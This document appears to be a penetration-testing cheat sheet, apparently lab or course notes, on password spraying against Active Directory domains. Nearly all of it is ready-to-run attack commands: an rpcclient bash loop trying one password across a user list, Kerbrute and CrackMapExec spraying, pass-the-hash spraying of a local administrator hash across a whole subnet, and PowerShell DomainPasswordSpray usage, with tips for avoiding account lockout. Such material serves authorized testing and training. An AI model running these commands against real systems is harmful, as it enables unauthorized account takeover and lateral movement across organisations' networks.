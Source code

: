 ## From Linux

### rpcclient

We can use rpcclient with a bash script in order to perform password spraying. We must then filter the results with a grep on `Authority` in the response. Here is a bash one-liner:

```shell
for u in $(cat <username-list>);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

### Kerbrute

```shell
kerbrute passwordspray -d <domain> --dc <IP> <username-list> <password>
```

### CrackMapExec

```shell
crackmapexec smb <IP> -u <users list> -p <password> | grep +
```

### Pass-the-Hash spraying

When we only have the NTLM hash of the local admin, we can spray the NT hash on the entire network.The `--local-auth` flag is used to only attempt one login on each machine in order to avoid account lockout. Be careful because this method makes a lot of noise.

```shell
crackmapexec smb --local-auth <net-ip/mask> -u administrator -H <hash> | grep +
```

## From Windows

### DomainPasswordSpray

When we have a foothold in the domain, we can perform password spraying with [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray). The tool can generate a user list, query the password policy and make the exact amount of trials not to lock out the accounts.

To use the tool, we must import it first:
```powershell
Import-Module .\DomainPasswordSpray.ps1
```

We can then use it:
```powershell
PS C:\htb> Invoke-DomainPasswordSpray -Password <password> -OutFile <output> -ErrorAction SilentlyContinue
```
